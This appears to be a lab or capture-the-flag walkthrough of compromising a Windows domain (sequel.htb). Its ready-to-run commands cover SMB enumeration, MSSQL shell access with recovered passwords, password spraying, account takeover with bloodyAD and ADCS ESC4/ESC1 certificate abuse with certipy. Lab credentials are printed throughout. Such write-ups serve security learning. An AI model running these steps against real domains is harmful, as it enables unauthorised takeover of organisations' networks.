The process started with a full TCP port scan to identify exposed services on the target machine.
nmap -sVC -p- --open -sS --min-rate 5000 -v -n --stats-every=5s -Pn -oN scan_txt 10.10.11.51Valid user credentials were already available and confirmed for the domain user rose.
User credentials: rose:KxEPkKe6R8su
Using the obtained credentials, SMB shares were enumerated to identify accessible resources.
smbmap -H 10.10.11.51 -u "rose" -p "KxEPkKe6R8su"
Next, domain user enumeration was performed over SMB to gain better visibility of existing accounts.
nxc smb 10.10.11.51 -u rose -p KxEPkKe6R8su --users
During SMB exploration, an Accounting Department share was identified containing an accounts file.
smbclient //10.10.11.51/Accounting\ Department -U rose
The retrieved file was identified as a ZIP archive.

Inside the archive, the file sharedStrings.xml contained credentials for the MSSQL service.
MSSQL credentials: sa@sequel.htb : MSSQLP@ssw0rd!
Using the recovered credentials, a connection to the MSSQL service was established.
impacket-mssqlclient sa:'MSSQLP@ssw0rd!'@10.10.11.51Once authenticated, the command shell functionality was enabled within the MSSQL context.


While enumerating configuration files, a second set of credentials was discovered inside the sql-Configuration.INI file.
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"This newly discovered password was tested across all enumerated domain users, resulting in additional valid access.

A reverse shell was then obtained using evil-winrm.


While enumerating permissions, it was observed that the user ryan had WriteOwner privileges over the CA_SVC account, which is a member of the CERT PUBLISHERS group.

To abuse this misconfiguration, ownership of the CA_SVC account was taken, full permissions were granted, and the account password was changed.
bloodyAD --dc-ip 10.10.11.51 --host dc01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' set owner "CA_SVC" "ryan"
bloodyAD --dc-ip 10.10.11.51 --host dc01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' add genericAll "CA_SVC" "ryan"
bloodyAD --host "dc01.sequel.htb" -d "sequel.htb" --kerberos --dc-ip 10.10.11.51 -u "ryan" -p 'WqSZAF6CysDQbGb3' set password "CA_SVC" "GoPwnnetTeam"With control over the CA_SVC account, the environment was vulnerable to Active Directory Certificate Services abuse, specifically CA-ESC4.
A new certificate template was created to prepare for further exploitation.
certipy-ad template -dc-ip 10.129.153.151 -u ca_svc -p 'GoPwnnetTeam' -template "DunderMifflinAuthentication" -target dc01.sequel.htb -save-old -target-ip 10.10.11.51System time was synchronized to avoid Kerberos authentication issues.
sudo ntpdate -u dc01.sequel.htbThe template was then abused to exploit ESC1 by requesting a certificate on behalf of the domain administrator.
certipy-ad req -username ca_svc@sequel.htb -password GoPwnnetTeam -ca sequel-DC01-CA -target sequel.htb -template "DunderMifflinAuthentication" -upn administrator@sequel.htb -target-ip 10.10.11.51 -dc-ip 10.10.11.51The certificate and private key were successfully generated and saved locally.
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.51This allowed authentication as the domain administrator and retrieval of the corresponding NTLM hash, completing the privilege escalation.
